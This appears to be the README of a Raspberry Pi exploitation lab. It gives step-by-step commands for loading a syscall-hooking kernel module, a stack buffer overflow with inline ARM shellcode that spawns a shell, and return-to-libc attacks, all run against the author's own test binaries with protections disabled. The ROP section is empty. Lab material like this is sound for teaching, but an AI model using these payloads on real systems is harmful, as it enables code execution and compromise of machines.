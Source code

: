 # HackRPi
- [System Call Hooking](https://github.com/korkeep/HackRPi#system-call-hooking-)
- [Buffer Overflow](https://github.com/korkeep/HackRPi#buffer-overflow-)
- [Return-To-Libc](https://github.com/korkeep/HackRPi#return-to-libc-)
- [Return-Oriented Programming](https://github.com/korkeep/HackRPi#return-oriented-programming-)

## System Call Hooking 🐱‍💻
### Insert kernel files to RPi
- **Step 1**: Mount SD card  
```
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/fs
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 2**: Copy kernel image  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/zImage /mnt/raspi/kernel7.img
```
- **Step 3**: Copy modules  
```
kss@ubuntu:~/HackRPi$ sudo cp -r ./linux/4.4.50-v7+/ /mnt/fs/lib/modules/
```
- **Step 4**: Copy device tree blob  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb /mnt/raspi/
```
- **Step 5**: Copy device tree blob overlays  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb* /mnt/raspi/overlays
kss@ubuntu:~/HackRPi$ sudo cp ./linux/README /mnt/raspi/overlays
```
- **Step 6**: Unmount SD card  
```
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
### Kernel modification attack
- **Step 1**: Check malicious module  
![image](https://user-images.githubusercontent.com/20378368/107459865-6d6e1a80-6b9a-11eb-9713-7319c7e2b622.png)  
- **Step 2**: Check SD card  
![image](https://user-images.githubusercontent.com/20378368/107325262-d303cd80-6aec-11eb-85fe-6e6c9f196352.png)  
```
kss@ubuntu:~/HackRPi/Hook$ lsblk
```
- **Step 3**: Mount SD card  
```
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 4**: Copy malicious module  
```
kss@ubuntu:~/HackRPi/Hook$ cd ..
kss@ubuntu:~/HackRPi$ sudo cp -r ./Hook /mnt/fs/home/pi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
- **Step 5**: Insert malicious module to RPi  
```
pi@raspberrypi:~/Hook$ sudo insmod hooker.ko
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107735072-30dd2300-6d42-11eb-888f-a2340d252d6c.PNG)

## Buffer Overflow 🐱‍💻
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/BOF $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
pi@korkeep:~/BOF $ gcc -fno-stack-protector -z execstack BOF.c -o BOF
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/BOF $ gdb -q BOF
(gdb) start
```
- **Step 4**: Disassemble main  
![image](https://user-images.githubusercontent.com/20378368/107657827-e1a6dc00-6cc8-11eb-9891-0387c6b8c34b.png)  
```
(gdb) disassemble main
```
- **Step 5**: Set a breakpoint to hack  
```
// Breakpoint target:
// 0x00010530 <+40>:    mov     r3, #0
(gdb) b *0x00010530
```
- **Step 6**: Analyze address state  
![image](https://user-images.githubusercontent.com/20378368/107655183-a86d6c80-6cc6-11eb-9a09-7223b26fdd69.png)  
```
(gdb) x/100x $sp-200
```
- **Step 7**: Buffer overflow using NOP sled  
```
// Target address: 0x7efff570
(gdb) run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x70\xf5\xff\x7e"')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107658056-1dda3c80-6cc9-11eb-9173-69a569d9439f.png)  

## Return-To-Libc 🐱‍💻
### Original RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
![image](https://user-images.githubusercontent.com/20378368/107732766-87476300-6d3c-11eb-88cf-ee929dbae4ee.png)  
```
// To practice RTL attack, compile with all these options
// However, Raspberry Pi3 does not support some options
pi@korkeep:~/RTL $ gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
![image](https://user-images.githubusercontent.com/20378368/107732076-c70d4b00-6d3a-11eb-9929-fd4c3664b426.png)  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Print system() address  
![image](https://user-images.githubusercontent.com/20378368/107729508-7bf03980-6d34-11eb-91f3-331a02ad046f.png)  
```
(gdb) print system
```
- **Step 5**: Find /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107729545-90343680-6d34-11eb-8a79-fc45acf8ab5c.png)  
```
(gdb) find &system, +99999999, "/bin/sh"
```
- **Step 6**: RTL attack using system(), /bin/sh address  
```
// Target address: 0x76e9ffac, 0x76f83c68
(gdb) run $(python -c 'print("A"*16+"\xac\xff\xe9\x76"+"A"*4+"\x68\x3c\xf8\x76")')
```
### Alternative RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
// Instead, HackRPi provides alternative source to practice RTL
// system("/bin/sh") function is manually added at RTL.c
pi@korkeep:~/RTL $ gcc -fno-stack-protector -z execstack -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Disassemble rtl()  
![image](https://user-images.githubusercontent.com/20378368/107731737-0ab38500-6d3a-11eb-9b3e-07e1e3181b0b.png)  
```
(gdb) disassemble rtl
```
- **Step 5**: Find system(), /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107734782-8ebd3b00-6d41-11eb-83c3-b4d42e5740ae.png)  
```
(gdb) x/x 0x10494
(gdb) x/s 0x10558
```
- **Step 6**: RTL attack using ldr address  
```
//Target: 0x00010488
(gdb) run $(python -c 'print("A"*16+"\x88\x04\x01")')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107734200-3174ba00-6d40-11eb-8306-32b063492b3f.png)  

## Return-Oriented Programming 🐱‍💻